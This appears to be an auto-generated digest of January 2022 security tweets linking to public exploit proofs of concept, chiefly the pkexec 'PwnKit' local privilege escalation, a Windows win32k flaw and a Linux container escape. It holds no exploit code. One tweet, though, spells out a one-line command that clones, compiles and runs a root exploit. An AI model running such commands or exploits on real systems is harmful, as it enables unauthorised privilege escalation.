# timstrazz
**https://twitter.com/timstrazz/status/1488198848912658434 _at 2022-01-31 17:13:49_**
<blockquote>
Writeup and exploit for installed app to system privilege escalation on Android 12 Beta through CVE-2021-0928, a `writeToParcel`/`createFromParcel` serialization mismatch in `OutputConfiguration` https://t.co/bzoEWfTPIV &lt; Good read
</blockquote>

* https://github.com/michalbednarski/ReparcelBug2

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# 0xc7m
**https://twitter.com/0xc7m/status/1488137107390582787 _at 2022-01-31 13:08:29_**
<blockquote>
Easy to Go LPE 4 Windows 10 #POC
https://t.co/4cpwLiXOEE 
Good job @kalendsi!  
#exploit #CVE-2022-21882 https://t.co/4ll3pGnHQc
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# 0xBruno
**https://twitter.com/0xBruno/status/1487846979526967299 _at 2022-01-30 17:55:37_**
<blockquote>
Made a exploit PoC for CVE-2021-22204 exiftool RCE. Happy hacking! https://t.co/NeOwRPIMwu
</blockquote>

* https://github.com/0xBruno/CVE-2021-22204

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# almorabea
**https://twitter.com/almorabea/status/1487818508838871044 _at 2022-01-30 16:02:29_**
<blockquote>
Wrote a Local privilege escalation on pkexec CVE-2021-4034  https://t.co/td2XWLibYf #cybersecurity #infosec #informationsecurity
</blockquote>

* https://github.com/Almorabea/pkexec-exploit

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1487615017688211457 _at 2022-01-30 02:33:53_**
<blockquote>
quickly tested the CVE-2022-21882 Win10 LPE PoC from @kalendsi before applying KB5009543 (which should patch it). works nicely on my 21H2 19044.1415.  https://t.co/gvozRBxeU1 https://t.co/f0zej818Lf
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>53</code></td>
<td>Favorites: <code>131</code></td>
</tr></table>

---

# Bandrel
**https://twitter.com/Bandrel/status/1487488013726846984 _at 2022-01-29 18:09:13_**
<blockquote>
Just pushed an update of https://t.co/FYlkKJ4Imf Now --userenum will enumerate AD users unauthenticated from the CUCM. Thanks @n00py1
</blockquote>

* https://github.com/trustedsec/SeeYouCM-Thief

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>82</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1487483996250456078 _at 2022-01-29 17:53:15_**
<blockquote>
Zimbra Mail System Vulnerability XE/RCE/SSRF/Upload GetShell Exploit 1. (CVE-2019-9621 Zimbra&lt;8.8.11 XXE GetShell Exploit)

https://t.co/0TS616lEWL
</blockquote>

* https://github.com/k8gege/ZimbraExploit

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>44</code></td>
</tr></table>

---

# ksg93rd
**https://twitter.com/ksg93rd/status/1487092792643960840 _at 2022-01-28 15:58:45_**
<blockquote>
#exploit
1. CVE-2022-21882:
win32k LPE bypass CVE-2021-1732
https://t.co/X54yXnIfuD
// tested on windows 20h2 19042

2. Technical Analysis of CVE-2022-22583:
Bypassing macOS System Integrity Protection (SIP)
https://t.co/e2ZC3tMjbi
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882
* https://perception-point.io/technical-analysis-of-cve-2022-22583-bypassing-macos-system-integrity-protection

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1487017991124496388 _at 2022-01-28 11:01:31_**
<blockquote>
Improper Restriction of XML External Entity Reference in https://t.co/SLae2fY5Rz (CVE-2022-0401) reported by ready-research - Patch: https://t.co/nx8jPrRXrL
https://t.co/g8tAeAx3JJ #bugbounty #infosec #opensource
</blockquote>

* https://github.com/mybatis/generator
* https://github.com/mybatis/generator/commit/7abca136dc43b5ef83441a3d255201c63b6a29bc
* https://huntr.dev/bounties/acd74536-dea0-4507-8c2c-1df3e21a948a/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1486996703450382336 _at 2022-01-28 09:36:55_**
<blockquote>
CVE-2022-21882

win32k LPE bypass CVE-2021-1732

only tested on windows 20h2 19042.1415

https://t.co/fCvhpQVaog

#cybersecurity #infosec #exploit #pentesting #bugbounty #redteam #CVE #0day

-

https://t.co/tr8lQcvtzU https://t.co/QQLwXZHWNb
</blockquote>

* https://github.com/KaLendsi/CVE-2022-21882
* https://t.me/hackgit/3047

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# numanturle
**https://twitter.com/numanturle/status/1486858633975631878 _at 2022-01-28 00:28:17_**
<blockquote>
https://t.co/hmvoldUrkg 
CVE-2021-43789 
Prestashop &gt;= 1.7.5.0 &lt; 1.7.8.2 - SQL injection
order[sortOrder] 
order[orderBy]
</blockquote>

* https://github.com/numanturle/CVE-2021-43789

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>31</code></td>
</tr></table>

---

# 0x_Akoko
**https://twitter.com/0x_Akoko/status/1486814974433394689 _at 2022-01-27 21:34:48_**
<blockquote>
I've pushed a nuclei template to detect this misconfiguration Laravel Ignition XSS. 

if you found one, take a look, sometimes it may leading to RCE.

https://t.co/DK2pO3LA7Z

#bugbounty #bugbountytips #infosec #hackwithautomation https://t.co/9QrQ1NhZEz
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/pull/3613

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>99</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1486794245721628674 _at 2022-01-27 20:12:26_**
<blockquote>
Bypassing HttpOnly 

1. Why phpinfo
2. Stealing ci_session with info.php file
3. POC :-  https://t.co/dNVl7crfp2

Research: 
https://t.co/Cl1yBJSCjy

#web #httponly #phpinfo #xss #bugbounty #bugbountytips #Cybersecurite
</blockquote>

* https://gist.github.com/ls4cfk/0deb122d4e2e24ac66cd74d3edf956bf
* https://aleksikistauri.medium.com/bypassing-httponly-with-phpinfo-file-4e5a8b17129b

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>35</code></td>
<td>Favorites: <code>71</code></td>
</tr></table>

---

# IntruderVS1400
**https://twitter.com/IntruderVS1400/status/1486744862691057673 _at 2022-01-27 16:56:12_**
<blockquote>
Proof of Concept for PwnKit: Local Privilege Escalation Vulnerability Discovered in polkit’s pkexec (CVE-2021-4034)

https://t.co/wmsBbQQY0Z
</blockquote>

* https://github.com/arthepsy/CVE-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TodayCyberNews
**https://twitter.com/TodayCyberNews/status/1486714233609883651 _at 2022-01-27 14:54:29_**
<blockquote>
Linux Root PrivEsc and Escaping Containers (CVE-2022-0185)

Research:
https://t.co/COAnnGXkzl

Exploit: 
https://t.co/oNrRTmDlcB

@TodayCyberNews
#linux #kernel #lpe #escape #container #0day https://t.co/XKF18PJ01D
</blockquote>

* https://www.willsroot.io/2022/01/cve-2022-0185.html
* https://github.com/Crusaders-of-Rust/CVE-2022-0185

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>5</code></td>
<td>Favorites: <code>12</code></td>
</tr></table>

---

# xtremepentest
**https://twitter.com/xtremepentest/status/1486610996080914432 _at 2022-01-27 08:04:16_**
<blockquote>
Pwnkit: Linux Local Privilege Escalation POC - Polkit Pkexec (CVE-2021-4034)

Another local privilege escalation comes out that affects most Linux distros out there. This CVE came out last year and the POC and update just got released today.

A thread🧵 https://t.co/a4md2P9smc
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>90</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1486469495354843145 _at 2022-01-26 22:41:59_**
<blockquote>
For those keeping score, Microsoft's CVE-2022-21882 is the first publicly documented in-the-wild 0day for 2022.

Here's confirmation buried in a bulletin update: https://t.co/SgenOKY7qR
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>47</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1486436693888667651 _at 2022-01-26 20:31:39_**
<blockquote>
CVE-2022-0332: Moodle 3.11 to 3.11.4 - SQL injection

PoC
https://t.co/KEMstBeUPV https://t.co/y6vnoGaAdl
</blockquote>

* https://github.com/numanturle/CVE-2022-0332

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>92</code></td>
<td>Favorites: <code>313</code></td>
</tr></table>

---

# Alra3ees
**https://twitter.com/Alra3ees/status/1486396746611765250 _at 2022-01-26 17:52:54_**
<blockquote>
Penetration_Testing_POC:-

Penetration testing-related POC, EXP, scripts, privilege escalation, gadgets, etc.xss cms php-getshell domainmod-xss penetration-testing-poc csrf-webshell cobub-razor cve rce sql sql-poc poc-exp bypass oa-getshell cve-cms

https://t.co/4fgUy0bu6e https://t.co/SLVjjwyf1J
</blockquote>

* https://github.com/Mr-xn/Penetration_Testing_POC

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>72</code></td>
<td>Favorites: <code>156</code></td>
</tr></table>

---

# 0xc7m
**https://twitter.com/0xc7m/status/1486396427349680131 _at 2022-01-26 17:51:38_**
<blockquote>
Local Privilege Escalation in polkit's pkexec (SUID-root program that is installed by default on
every major Linux distribution) #CVE-2021-4034 #POC
https://t.co/AFNr8NU9Ul
 #redteam #infosec #Security  #infosecurity #BlueTeam
</blockquote>

* https://github.com/berdav/CVE-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# AKMalware
**https://twitter.com/AKMalware/status/1486375571164737536 _at 2022-01-26 16:28:46_**
<blockquote>
#POC للثغرة 
CVE-2021-4034
Linux Privilege escalation 
https://t.co/wghU14yr8a https://t.co/pcegd6KqLx
</blockquote>

* https://github.com/berdav/CVE-2021-4034

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>11</code></td>
</tr></table>

---

# soheilhashemi_
**https://twitter.com/soheilhashemi_/status/1486374770111299589 _at 2022-01-26 16:25:35_**
<blockquote>
CVE-2022-0185 in Linux Kernel Can Allow Container Escape in Kubernetes
https://t.co/gEmBwMOXlc
POC : https://t.co/FLviMFiWad
#0day #Linux
</blockquote>

* https://blog.aquasec.com/cve-2022-0185-linux-kernel-container-escape-in-kubernetes
* https://github.com/Crusaders-of-Rust/CVE-2022-0185

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1486346108964159496 _at 2022-01-26 14:31:42_**
<blockquote>
Created a self-contained exploit for CVE-2021-4034 (1-day Pkexec Local Privilege Escalation). Should work out of the box on Linux distributions based on Ubuntu, Debian, Fedora, and CentOS.

https://t.co/M0IoDDVneK
</blockquote>

* https://github.com/ly4k/PwnKit

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>190</code></td>
<td>Favorites: <code>463</code></td>
</tr></table>

---

# c3l3si4n
**https://twitter.com/c3l3si4n/status/1486334073085833216 _at 2022-01-26 13:43:52_**
<blockquote>
My exploit for the newest polkit privilege escalation vulnerability affecting polkit &lt;0.120
https://t.co/0v9myDzExt
</blockquote>

* https://github.com/c3l3si4n/pwnkit

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# RabbitPro
**https://twitter.com/RabbitPro/status/1486274848737443840 _at 2022-01-26 09:48:32_**
<blockquote>
PwnKit vulnerability and exploitation is just pure gold! 

CVE-2021-4034: LPE in pkexec

https://t.co/9YdT41TWP9
</blockquote>

* https://seclists.org/oss-sec/2022/q1/80

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# HashSven
**https://twitter.com/HashSven/status/1486273352369156096 _at 2022-01-26 09:42:35_**
<blockquote>
Privilege escalation in one command!

 id &amp;&amp; git clone https://t.co/2pDVYTiQWD &amp;&amp; cd CVE-2021-4035 &amp;&amp;  gcc cve-2021-4034-poc.c -o cve &amp;&amp; ./cve &amp;&amp; id

https://t.co/yN3RXPYsrm

#patching #security #cve #root #cybersecurity
</blockquote>

* https://github.com/NHPT/CVE-2021-4035.git
* https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# LostWisdom3
**https://twitter.com/LostWisdom3/status/1486264733305131012 _at 2022-01-26 09:08:20_**
<blockquote>
i have just tested this pkexec privilege escalation exploit (CVE-2021-4034) and it worked, the exploit is too simple and all unpatched linux systems are vulnerable,here is the PoC  https://t.co/cx4R22mCiV
#infosec
</blockquote>

* https://github.com/berdav/CVE-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# huntrHacktivity
**https://twitter.com/huntrHacktivity/status/1486247942860288001 _at 2022-01-26 08:01:37_**
<blockquote>
Cross-site Scripting (XSS) - Stored in https://t.co/9tpEMHERiG (CVE-2022-0372) reported by 1d8 - Patch: https://t.co/SVTMGKX1VC
https://t.co/2wmvoBf8w0 #bugbounty #infosec #opensource
</blockquote>

* https://github.com/crater-invoice/crater
* https://github.com/crater-invoice/crater/commit/cdc913d16cf624aee852bc9163a7c6ffc8d1da9d
* https://huntr.dev/bounties/563232b9-5a93-4f4d-8389-ed805b262ef1/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1486241623507931139 _at 2022-01-26 07:36:30_**
<blockquote>
CVE-2022-0185 Container Escape PoC
 https://t.co/XC6REHuPs1

CVE-2021-4034 Privilege Escalation PoC
https://t.co/nMn0DgIpLi

#git #exploit

GitHub - Crusaders-of-Rust/CVE-2022-0185: CVE-2022-0185 - GitHub
CVE-2022-0185. Contribute to Crusaders-of-Rust/… https://t.co/WidBugAobF https://t.co/Jn8wxrd2lc
</blockquote>

* https://github.com/Crusaders-of-Rust/CVE-2022-0185
* https://github.com/berdav/CVE-2021-4034
* https://t.me/hackgit/3022

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# hardenedlinux
**https://twitter.com/hardenedlinux/status/1486194789507043336 _at 2022-01-26 04:30:24_**
<blockquote>
pwnkit: Local Privilege Escalation in polkit's pkexec (CVE-2021-4034) https://t.co/CsKGPtRFaw PoC: https://t.co/IrrzD4eyV6
</blockquote>

* https://www.openwall.com/lists/oss-security/2022/01/25/11
* https://github.com/berdav/CVE-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# MeBeiM
**https://twitter.com/MeBeiM/status/1486187944822063104 _at 2022-01-26 04:03:12_**
<blockquote>
Here's a simple PoC for CVE-2021-4034 "Local Privilege Escalation in polkit's pkexec" originally discovered by the Qualys Research Team (https://t.co/zJAo18PTX7) https://t.co/srTKNsgMD8
</blockquote>

* https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
* https://github.com/mebeim/CVE-2021-4034

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>20</code></td>
</tr></table>

---

# _JohnHammond
**https://twitter.com/_JohnHammond/status/1486143827262033920 _at 2022-01-26 01:07:54_**
<blockquote>
Why compile, when you can just pipe curl to bash?? 🤣😂🤣CVE-2021-4034 https://t.co/zUBAFzMGZR
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>17</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>546</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1484423859797622784 _at 2022-01-21 07:13:22_**
<blockquote>
